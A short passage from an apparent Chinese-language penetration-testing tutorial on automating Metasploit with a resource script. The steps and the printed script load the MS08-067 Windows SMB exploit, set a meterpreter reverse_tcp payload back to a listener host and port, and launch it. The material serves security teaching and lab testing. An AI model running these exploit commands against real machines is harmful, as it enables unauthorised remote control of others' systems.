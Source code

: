 1.  我们可以打开任何编辑器-`nano`、`leafpad`等等。
2.  在这里，我们键入希望 MSF 执行的所有命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

3.  我们使用`.rc`扩展名保存脚本：

![](img/e727ff55-006e-444e-b02a-0593fef1e1d6.png)

4.  现在我们启动`msfconsole`并键入命令自动利用机器：

![](img/af6731d6-1700-4a87-bb00-b9390cc6effd.png)
